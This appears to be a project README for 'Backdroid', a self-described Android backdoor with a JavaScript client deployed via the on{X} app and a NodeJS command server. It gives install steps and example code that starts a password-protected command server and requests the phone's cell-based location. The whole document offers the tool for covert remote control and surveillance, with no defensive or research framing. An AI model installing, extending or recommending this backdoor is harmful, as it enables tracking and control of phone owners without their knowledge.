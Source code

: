 Backdroid v1.0.1 BETA
==================================================

What is this?
--------------------------------------

it's a backdoor for Android formed by a client written in JavaScript, with the help of http://onx.ms/, and a server written in NodeJS.

Features
--------------------------------------

	Encrypted connection in AES-256
	Web panel control
	Very flexible and scalable to add new features

How to install?
--------------------------------------

  - Download and install NodeJS (http://nodejs.org/).
  - Install backdroid with npm by the console (npm install -g backdroid).
  - Download and install Onx App for Android (https://play.google.com/store/apps/details?id=com.microsoft.onx.app).
  - Login in https://www.onx.ms/.
  - Download backdroid proyect (https://github.com/yeikos/backdroid/zipball/master).
  - Copy client.js source code (https://github.com/yeikos/backdroid/blob/master/client.js) and paste it into https://www.onx.ms/#!createScriptPage (new rule).
  - Go to examples project folder and launch each example by the console (node SCRIPTNAME).

Example
--------------------------------------
	
	var backdroid = require('backdroid');

	backdroid.setCommand('location', { provider: 'CELL' }, function(command, value) {

		console.log('[sent]', command, value);

	}, function(command, value, response) {

		console.log('[response]', command, value, response);

	});

	backdroid.createCommandServer({

		password: 'secret',
		password_encryptation: 'secret123',
		
		port: 8888

	});